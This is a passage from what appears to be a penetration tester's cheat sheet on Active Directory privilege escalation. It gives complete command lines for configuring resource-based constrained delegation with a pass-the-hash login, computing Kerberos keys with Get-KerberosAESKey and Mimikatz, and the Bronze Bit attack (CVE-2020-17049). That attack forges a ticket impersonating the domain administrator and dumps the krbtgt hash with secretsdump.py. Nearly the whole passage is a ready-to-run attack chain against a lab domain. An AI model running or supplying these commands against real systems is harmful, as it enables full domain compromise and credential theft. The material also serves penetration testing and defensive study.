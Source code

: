 
#### rbcd_permissions

* [https://github.com/NinjaStyle82/rbcd_permissions](https://github.com/NinjaStyle82/rbcd_permissions)

Configure RBCD on the vulnerable host (DC01) via PtH:

```
$ python3 rbcd.py -t 'CN=dc01,OU=Domain Controllers,DC=megacorp,DC=local' -d megacorp.local -c 'CN=fakemachine1337,CN=Computers,DC=megacorp,DC=local' -u snovvcrash -H 79bfd1ab35c67c19715aea7f06da66ee:79bfd1ab35c67c19715aea7f06da66ee -l 10.10.13.37
```


#### Bronze Bit

**CVE-2020-17049**

* [https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-theory/](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-theory/)
* [https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-attack/](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-attack/)

Calculate Kerberos keys for the fake machine account with [Get-KerberosAESKey](https://gist.github.com/Kevin-Robertson/9e0f8bfdbf4c1e694e6ff4197f0a4372):

```
PS > Get-KerberosAESKey -Password 'Passw0rd!' -Salt MEGACORP.LOCALfakemachine1337
AES128 Key: 01C7B89A74F7AEC1007DED2F3DE0A815
AES256 Key: 211E8E3134ED797B0A2BF6C36D1A966B3BED2B24E4AAA9ECEED23D0ABF659E98
```

Or with Mimikatz:

```
mimikatz # kerberos::hash /domain:megacorp.local /user:fakemachine1337 /password:Passw0rd!
        * rc4_hmac_nt       fc525c9683e8fe067095ba2ddc971889
        * aes128_hmac       01c7b89a74f7aec1007ded2f3de0a815
        * aes256_hmac       211e8e3134ed797b0a2bf6c36d1a966b3bed2b24e4aaa9eceed23d0abf659e98
        * des_cbc_md5       621a91461f1adffe
```

Now you can impersonate a protected user:

```
$ addcomputer.py -computer-name fakemachine1337 -computer-pass 'Passw0rd!' -dc-ip 10.10.13.37 -dc-host DC01.megacorp.local megacorp.local/snovvcrash:'Qwe123!@#'
$ python3 rbcd.py -t 'CN=dc01,OU=Domain Controllers,DC=megacorp,DC=local' -d megacorp.local -c 'CN=fakemachine1337,CN=Computers,DC=megacorp,DC=local' -u snovvcrash -H 79bfd1ab35c67c19715aea7f06da66ee:79bfd1ab35c67c19715aea7f06da66ee -l 10.10.13.37
$ getST.py -spn ldap/DC01.megacorp.local -impersonate 'administrator' -dc-ip 10.10.13.37 megacorp.local/fakemachine1337 -hashes :fc525c9683e8fe067095ba2ddc971889 -aesKey 211e8e3134ed797b0a2bf6c36d1a966b3bed2b24e4aaa9eceed23d0abf659e98 -force-forwardable
$ secretsdump.py DC01.megacorp.local -just-dc-user 'MEGACORP\krbtgt' -dc-ip 10.10.13.37 -no-pass -k
```



### DHCPv6 + WPAD + NTLM Relay + RBCD
